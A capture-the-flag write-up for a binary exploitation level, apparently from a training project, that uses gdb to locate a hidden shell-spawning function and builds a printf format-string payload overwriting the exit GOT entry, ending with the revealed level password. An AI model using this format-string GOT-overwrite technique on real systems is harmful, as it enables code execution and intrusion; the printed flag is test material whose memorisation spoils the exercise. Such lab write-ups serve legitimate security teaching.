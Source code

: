 solution level5:

-> gdb level5

-> the main simply calls function "n"

-> we disassemble function n and we can observe the following:
- some space is allocated on the stack
- the function fills a buffer with a call to fgets
- next the printf method is called with the buffer passed as argument
- finally the exit method is called

-> by looking at the existing functions in the program with "i func", we notice another function called "o"

-> "o" simply calls the system method to open a new shell (/bin/sh) then calls exit

-> we need to find a way to call "o", and we know that we can exploit the printf method to modify the memory of our program

-> the next and only instruction after printf is the call to exit
> (gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
...
The exit method makes a jump to the instruction stored at address 0x08049838;
> (gdb) x/x 0x8049838
0x080483d6
0x080483d6 will be the address to replace.
The address of function "o" is 0x080484a4. The first 2 bytes being equal, we only need to replace the last 2 bytes by 84a4, which is 33956 in decimal.

-> our buffer will contain:
- the address of the memory we want to change -> \x38\x98\x04\x08
- our number minus the size of the address above : 33956 - 4 = 33952 -> %33952x
- the %n modifier, but only half of the address needs to be changed, so we'll use the size specifier 'h'. We also need to indicate the argument index, which is 4 -> %4$hn

> scp -P 2222 Ressources/run.sh level5@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/buff - | ./level5
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
